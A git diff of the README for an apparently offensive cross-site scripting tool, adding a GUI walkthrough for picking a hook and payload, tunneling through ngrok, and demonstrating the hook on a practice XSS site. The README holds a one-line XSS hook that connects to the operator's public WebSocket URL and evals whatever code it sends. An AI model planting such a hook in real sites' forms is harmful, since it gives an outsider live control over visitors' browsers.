

Add: gui guide

diff --git a/README.md b/README.md
@@ -18,6 +18,50 @@ for this because the application will take care of tunneling the connection betw
 > Use `--help` argument to get help.
 ![commandline help](docs/help.png)
 
+### GUI-Guide
+
+Firstly, choose the hook. [Default hook](hooks/default) is the simplest hook, it is only suitable for forms without XSS
+protection:
+
+![step 1](docs/step_1.png)
+
+Then, choose the payload. [Hello world payload](payloads/hello_world) is an example payload, it just alerts "Hello,
+World!":
+
+![step 2](docs/step_2.png)
+
+Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:
+
+1) use one of the suggested tunneling apps (now it's only [ngrok](https://ngrok.com/))
+2) tunnel ports yourself and pass the public URL of the HTTP tunnel to the program
+
+![step 3](docs/step_3_1.png)
+
+![step 3](docs/step_3_2.png)
+
+Finally, you can run the process!
+
+![step 4](docs/step_4.png)
+
+Now you can copy the hook and start hunting ;D
+
+![step 5](docs/step_5.png)
+
+To demonstrate the possibilities, we can use site [xss-game.appspot.com](https://xss-game.appspot.com/).
+Enter the hook into search form:
+
+![step 6](docs/step_6.png)
+
+Press "Search". As you can see, we have the alert dialog!
+
+![step 7](docs/step_7.png)
+
+Also, we have "Hello, World!" in our console:
+![step 8](docs/step_8.png)
+
+
+
+
 ### Hook
 
 > _Hooks folder: [hooks](hooks)_
@@ -26,8 +70,7 @@ for this because the application will take care of tunneling the connection betw
 
 ```html
 
-<script>c = new WebSocket('{{environment.public_url}}');
-c.onmessage = (e) => eval(e.data);</script>
+<script>c = new WebSocket('{{environment.public_url}}');c.onmessage = (e) => eval(e.data);</script>
 ```
 
 **NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
@@ -117,8 +160,6 @@ browser and in the graphical interface._
 ### Graphical
 
 ![GUI](docs/GUI.png)
-
-![img.png](docs/GUI_2.png)
 
 ### WEB
 
